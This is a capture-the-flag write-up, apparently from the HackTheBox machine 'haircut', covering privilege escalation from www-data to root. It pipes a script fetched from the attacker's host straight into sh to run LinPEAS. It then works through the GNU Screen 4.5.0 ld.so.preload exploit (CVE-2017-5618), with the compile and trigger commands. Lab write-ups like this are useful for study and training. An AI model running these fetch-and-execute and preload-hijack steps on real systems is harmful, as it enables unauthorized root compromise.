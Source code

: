 ```bash
www-data@haircut:~/html$ whoami
www-data

www-data@haircut:~/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# PrivEsc

There is another user called ‘maria’.

```bash
www-data@haircut:~/html$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
maria:x:1000:1000:maria,,,:/home/maria:/bin/bash
```

Executed [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) to discover potential PE vectors.

```bash
www-data@haircut:~/html$ curl 10.10.14.42/linpeas.sh|sh
[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154
```

The screen 4.5.0 PE ended up working. You can use this one from EDB to follow the steps.

```bash
searchsploit screen 4.5.0                                          
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                                                                                              | linux/local/41154.sh
```

First, we need to compile the shared object library and the binary in our VM.

```bash
gcc -fPIC -shared -ldl -o libhax.so libhax.c

gcc -o rootshell rootshell.c -static
```

Transferred both of them to the target box and executed the rest of the PoC script.

```bash
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
echo "[+] Triggering..."
screen -ls
/tmp/rootshell
```
